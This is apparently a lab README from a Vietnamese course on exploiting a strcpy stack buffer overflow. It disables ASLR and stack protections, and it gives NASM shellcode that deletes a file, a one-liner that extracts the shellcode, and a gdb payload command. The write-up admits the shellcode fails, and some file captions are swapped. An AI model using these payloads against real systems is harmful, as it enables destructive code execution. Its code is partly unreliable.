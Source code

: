 ## vuln(inject shell code file_del)
### Prepare for the lab environment:
1. Turn off OS's address space layout randomization (`sudo sysctl -w kernel.randomize_va_space=0`)<br>
(Tắt chế độ cấp phát địa chỉ stack ngẫu nhiên khi load chương trình của HĐH)<br>
2. Compile program with options to defeat stack protecting mechanism and code execution on stack:<br>
(Biên dịch chương trình c với các option tắt cơ chế bảo vệ stack và cho phép thực thi code trên stack)<br>
`$> gcc vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2`<br>
3. Creat link to zsh instead of default dash to turn off bash countermeasures of Ubuntu 16.04:<br>
`$> sudo ln -sf /bin/zsh /bin/sh`<br>

Source code: <br>
```
#include<stdio.h>
#include<string.h>
int main(int argc, char* argv[])
{
    char buf[64];
    if (argc==1)
        printf("missing argument\n");
    else
        strcpy(buf,argv[1]);
    //printf("buf: 0x%x\n",(unsigned int)buf);
    return 0;
}
```
<br>

**vuln.c**
```
; delete dummyfile in nasm

section .text
global _start
_start:
    jmp short ender
starter:
    mov eax,10
    mov ebx,_filename
    int 0x80
_exit:
    mov eax,1
    int 0x80

ender:
    call starter
_filename:
    db 'dummyfile',0
```
**file_del.asm**

<br>

Complie by gcc:
`gcc -g vuln.c -o vuln.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack`

<br>
Run file_del: <br>

`nasm -g -f elf file_del.asm` <br>
`ld -m elf_i386 -o file_del file_del.o`

<br>

![compile vuln](./imgs/file_del1.png)

<br>

Run this command to get shellcode from `file_del`:

<br>

`for i in $(objdump -d file_del |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo`

<br>

![shellcode](./imgs/file_del2.png)

<br>

Use `gdb` to run program:

<br>

`gdb vuln.out -q`

<br>

![gdb](./imgs/file_del3.png)

<br>

break at 2 points: <br>
`0x08048441` <br>
`0x0804846b` <br>
<br> Run program: <br>
`gdb-pead$ r $(python -c "print('\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00' + 'a'*32 + '\xff\xff\xff\xff')")` <br>

![](./imgs/file_del4.png)

<br> Continue: `gdb-peda$ c` <br>

![](./imgs/file_del5.png)

<br> `x/80xb $esp` to check stack <br>

We got some problem in shellcode. It's wrong when running program.
